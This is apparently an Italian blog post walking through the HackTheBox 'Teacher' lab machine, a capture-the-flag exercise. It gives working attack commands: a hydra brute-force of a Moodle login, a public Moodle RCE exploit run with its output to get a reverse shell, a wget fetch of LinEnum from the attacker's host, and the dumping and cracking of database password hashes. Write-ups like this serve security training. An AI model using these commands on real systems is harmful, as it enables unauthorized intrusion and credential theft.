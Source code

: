 ```yaml
---
layout:     post
title:      "Teacher - HackTheBox"
date:       2019-07-05 02:42:07
categories: ctf hackthebox machine sqlinjection
draft: true
---
```


Teacher è una macchina Linux da 20 punti con indirizzo ip `10.10.10.153`

![Teacher](/images/htb-teacher/teacher.png)

Facciamo uno scan delle porte con nmap:
![Scan](/images/htb-teacher/scan.png)

C'è un web server in esecuzione sulla porta 80, visitiamolo:
![Web](/images/htb-teacher/web.png)

Navigando tra le pagine del sito vediamo un immagine mancante nella sezione
gallery:
![Gallery](/images/htb-teacher/gallery.png)

Andando a leggere il sorgente, notiamo che nel caso in cui non venga caricata
correttamente quell'immagine, verrà loggato un messaggio nella console del
browser:
![Source](/images/htb-teacher/source.png)

Vediamo allora cosa contiene il file:
![Source](/images/htb-teacher/5.png)

Abbiamo quindi una password che inizia con `Th4C00lTheacha` e a cui manca un
carattere.

Continuiamo la nostra ricerca e lanciamo un tool per cercare eventuali directory
o file esposti (io uso [ffuf](https://github.com/ffuf/ffuf) ma vanno bene anche
[dirsearch](https://github.com/maurosoria/dirsearch),
[gobuster](https://github.com/OJ/gobuster) o altri):
![Discovery](/images/htb-teacher/discovery.png)

Notiamo le directory phpmyadmin, che però risponde con codice `403 Access denied`,
e la directory moodle:
![Moodle](/images/htb-teacher/moodle.png)

Moodle è un CMS usato dagli istutiti scolastivi, in genere per pubblicare
materiale sui vari corsi.
Provando a fare il login vediamo che c'è la possibilità di entrare come ospite:
![Login](/images/htb-teacher/login.png)

Provando a navigare tra le varie sezioni non scopriamo niente di nuovo in quanto
ci viene comunque chiesto di eseguire il login.

Il corso di Algebra ha come professore Giovanni Chhatta, lo stesso nome che che
c'era nel messaggio nascosto nell'immagine `5.png`. Abbiamo anche parte della
password.

Usiamo [crunch](https://github.com/crunchsec/crunch) per generare le possibili
password. Crunch sostituisce alcuni simboli con un set di caratteri predefinito:
* `@` caratteri minuscoli
* `,` caratteri maiuscoli
* `%` numeri
* `^` simboli

![Crunch](/images/htb-teacher/crunch.png)

Usiamo [hydra](https://github.com/vanhauser-thc/thc-hydra) per eseguire trovare
la password giusta:
```
vagrant@kali:~$ hydra -t 8 -l Giovanni -P passwords.txt http-form-post://10.10.10.153 -f -m "/moodle/login/index.php:username=^USER^&password=^PASS^:Invalid"
```
Scopriamo che la password è "Th4C00lTheacha#". Facendo il login e dando un'occhiata in giro non si trova niente di utile. Andando sulla pagina del corso di Algebra, in basso c'è in link che dice "Moodle Docs for this page". Cliccandolo ci porta alla documentazione di Moodle 3.4. Cerchiamo se c'è qualche vulnerabilità nota su exploitdb. 
Troviamo un exploit che permette RCE, che sfrutta l'esecuzione di codice nella creazione di un quiz sul portale. Ecco il link
https://www.exploit-db.com/exploits/46551

L'exploit di default esegue una reverse shell, dobbiamo quindi mettere netcat in
ascolto sulla nostra macchina:
```
vagrant@kali:~$ nc -nlvp 8081
```

Poi su un altro terminale eseguiamo l'exploit, i parametri ip e port si
riferiscono alla sessione di netcat in ascolto.
```
vagrant@kali:~$ php moodle-3.4.3-rce.php url=http://10.10.10.153/moodle user=Giovanni pass=Th4C00lTheacha# ip=10.10.15.48 port=8081 course=2                                    

*------------------------------*
* Noodle [Moodle RCE] (v3.4.1) *
*------------------------------*

[!] Make sure you have a listener
[!] at 10.10.15.48:8081

[*] Logging in as user Giovanni with password Th4C00lTheacha#                                 
[+] Successful Login
[>] Moodle Session r07l94v8etnshdrrjpr6a22uo5
[>] Moodle Key 3jfgrc2UVo
[*] Loading Course ID 2
[+] Successfully Loaded Course
[*] Enable Editing
[+] Successfully Enabled Course Editing
[*] Adding Quiz
[+] Successfully Added Quiz
[*] Configuring New Quiz
[+] Successfully Configured Quiz
[*] Loading Edit Quiz Page
[+] Successfully Loaded Edit Quiz Page
[*] Adding Calculated Question
[+] Successfully Added Calculation Question
[*] Adding Evil Question
[+] Successfully Created Evil Question
[*] Sending Exploit

[>] You should receive a reverse shell attempt from the target at 10.10.15.48 on port 8081    
[>] If connection was successful this program will wait here until you close the connection.  
[>] You should be able to Ctrl+C and retain the connection through netcat.   
```

L'exploit dovrebbe connettere il server alla nostra sessione di netcat, dandoci
quindi una shell remota, eseguiamo il seguente comando python per spawnare una
shell più utilizzabile:
```
$ python -c 'import pty; pty.spawn("/bin/bash")'
```

Dovremmo avere la seguente shell:
```
www-data@teacher:/var/www/html/moodle/question$
```

Carichiamo sul server lo script LinEnum.sh per fare enumeration. Per caricarlo, dato che il server non ha
accesso a internet, eseguiamo un web server sul nostro computer nella cartella
dove abbiamo LinEnum.sh, e dall'altra parte scarichiamolo con wget.
```
vagrant@kali:~$ python2 -m SimpleHTTPServer 9999
```

In questo caso 10.10.15.48 è il mio IP
```
www-data@teacher:/tmp$ wget http://10.10.15.48:9999/LinEnum.sh
```

Eseguendo LinEnum scopriamo che possiamo leggere /etc/shadow, ma provando
crackare le password degli utenti giovanni e root con rockyou non si trova
niente.
Vediamo invece che c'è un database mysql in esecuzione, cerchiamo nel file
moodle/config.php la password per connettersi al database e scopriamo che è
"Welkom1!". Connettiamoci allora al database:
```
www-data@teacher:/var/www/html/moodle/question$ mysql -u root -p
```

Vediamo quali database ci sono:
```
MariaDB [moodle]> show databases; 
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| moodle             |
| mysql              |
| performance_schema |
| phpmyadmin         |
+--------------------+
5 rows in set (0.00 sec)
```

Vediamo cosa c'è nel database moodle:
```
MariaDB [moodle]> show tables;
show tables;
+----------------------------------+
| Tables_in_moodle                 |
+----------------------------------+
| mdl_analytics_indicator_calc     |
| mdl_analytics_models             |
| mdl_analytics_models_log         |
| mdl_analytics_predict_samples    |
| mdl_analytics_prediction_actions |
| mdl_analytics_predictions        |
| mdl_analytics_train_samples      |
| mdl_analytics_used_analysables   |
| mdl_analytics_used_files         |
| mdl_assign                       |
               ...
| mdl_user                         |
| mdl_workshopform_accumulative    |
| mdl_workshopform_comments        |
| mdl_workshopform_numerrors       |
| mdl_workshopform_numerrors_map   |
| mdl_workshopform_rubric          |
| mdl_workshopform_rubric_config   |
| mdl_workshopform_rubric_levels   |
+----------------------------------+
388 rows in set (0.01 sec)

MariaDB [moodle]>
```

Controlliamo la tabella mdl_user:
```
MariaDB [moodle]> select username, password from mdl_user;                                                                                                                                                           
+-------------+--------------------------------------------------------------+
| username    | password                                                     |
+-------------+--------------------------------------------------------------+
| guest       | $2y$10$ywuE5gDlAlaCu9R0w7pKW.UCB0jUH6ZVKcitP3gMtUNrAebiGMOdO |
| admin       | $2y$10$7VPsdU9/9y2J4Mynlt6vM.a4coqHRXsNTOq/1aA6wCWTsF2wtrDO2 |
| giovanni    | $2y$10$38V6kI7LNudORa7lBAT0q.vsQsv4PemY7rf/M1Zkj/i1VqLO0FSYO |
| Giovannibak | 7a860966115182402ed06375cf0a22af                             |
+-------------+--------------------------------------------------------------+
4 rows in set (0.00 sec)

MariaDB [moodle]>
```

Copiamo gli hash in un file e proviamo a crackarli con john the ripper usando la
solita wordlist rockyou
```
vagrant@kali:~$ john dbpasswords.txt --wordlist=rockyou.txt
```

Scopriamo che la password è expelled
